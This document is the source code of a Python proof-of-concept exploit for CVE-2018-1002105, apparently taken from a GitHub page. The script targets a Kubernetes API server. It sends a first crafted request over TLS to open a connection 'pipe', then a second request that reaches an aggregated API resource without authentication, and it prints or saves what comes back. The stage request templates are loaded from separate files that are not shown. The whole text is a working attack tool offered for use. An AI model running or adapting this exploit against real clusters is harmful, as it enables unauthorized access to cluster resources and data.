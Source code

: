 EXP
---

    #!/usr/bin/env python3
    import argparse
    from ssl import wrap_socket
    from json import loads, dumps
    from socket import create_connection


    def request_stage_1(base, version, target):

        stage_1 = ""

        with open('ustage_1', 'r') as stage_1_fd:
            stage_1 = stage_1_fd.read()

        return stage_1.format(base, version, target
                              ).encode('utf-8')


    def request_stage_2(base, version, target_api, target):

        stage_2 = ""

        with open('ustage_2', 'r') as stage_2_fd:
            stage_2 = stage_2_fd.read()

        return stage_2.format(base, version, target_api, target,
                              ).encode('utf-8')


    def read_data(ssock):

        data = []
        data_incoming = True

        while data_incoming:
            data_in = ssock.recv(4096)

            if not data_in:
                data_incoming = False

            elif data_in.find(b'\n\r\n0\r\n\r\n') != -1:
                data_incoming = False

            offset_1 = data_in.find(b'{')
            offset_2 = data_in.find(b'}\n')

            if offset_1 != -1 and offset_2 != -1:
                data_in = data_in[offset_1-1:offset_2+1]

            elif offset_1 != -1:
                data_in = data_in[offset_1-1:]

            elif offset_2 != -1:
                data_in = data_in[:offset_2-1]

            data.append(data_in)

        return data


    def run_exploit(target, stage_1, stage_2, filename, json):

        host, port = target.split(':')

        with create_connection((host, port)) as sock:

            with wrap_socket(sock) as ssock:
                print('[*] Building pipe ...')
                ssock.send(stage_1)

                data_in = ssock.recv(15)

                if b'HTTP/1.1 200 OK' in data_in:
                    print('[+] Pipe opened :D')
                    read_data(ssock)

                else:
                    print('[-] Not sure if this went well...')

                print(f"[*] Attempting to access url")

                ssock.send(stage_2)
                data_in = ssock.recv(15)

                if b'HTTP/1.1 200 OK' in data_in:
                    print('[+] Pipe opened :D')

                data = read_data(ssock)

                return data


    def parse_output(data, json, filename):

        if json:
            j = loads(''.join(i.decode('utf-8')
                              for i in data))

            data = dumps(j, indent=4)

            if filename:
                mode = 'w+'

            else:
                mode = 'wb+'

        if filename:
            print(f"[*] Writing output to {filename} ....")

            with open(filename, mode) as fd:
                if json:
                    fd.write(data)

                else:
                    for msg in data:
                        fd.write(msg)

                print('[+] Done!')

        else:
            if json:
                print(data)

            else:
                print(''.join(msg.decode('unicode_escape') for msg in data))


    def main():

        parser = argparse.ArgumentParser(description='Unauthenticated PoC for'
                                                     ' CVE-2018-1002105')
        required = parser.add_argument_group('required arguments')
        optional = parser.add_argument_group('optional arguments')

        required.add_argument('--target', '-t', dest='target', type=str,
                              help='API server target:port', required=True)
        required.add_argument('--api-base', '-b', dest='base', type=str,
                              help='Target API name i.e. "servicecatalog.k8s.io"',
                              default="servicecatalog.k8s.io")
        required.add_argument('--api-target', '-u', dest='target_api', type=str,
                              help='API to access i.e. "clusterservicebrokers"',
                              default="clusterservicebrokers")

        optional.add_argument('--api-version', '-a', dest='version', type=str,
                              help='API version to use i.e. "v1beta1"',
                              default="v1beta1")
        optional.add_argument('--json', '-j', dest='json', action='store_true',
                              help='Print json output', default=False)
        optional.add_argument('--filename', '-f', dest='filename', type=str,
                              help='File to save output to', default=False)

        args = parser.parse_args()

        if args.target.find(':') == -1:
            print("f[-] invalid target {args.target}")
            return False

        stage1 = request_stage_1(args.base, args.version, args.target)

        stage2 = request_stage_2(args.base, args.version, args.target_api,
                                 args.target)

        output = run_exploit(args.target, stage1, stage2, args.filename, args.json)

        parse_output(output, args.json, args.filename)


    if __name__ == '__main__':
        main()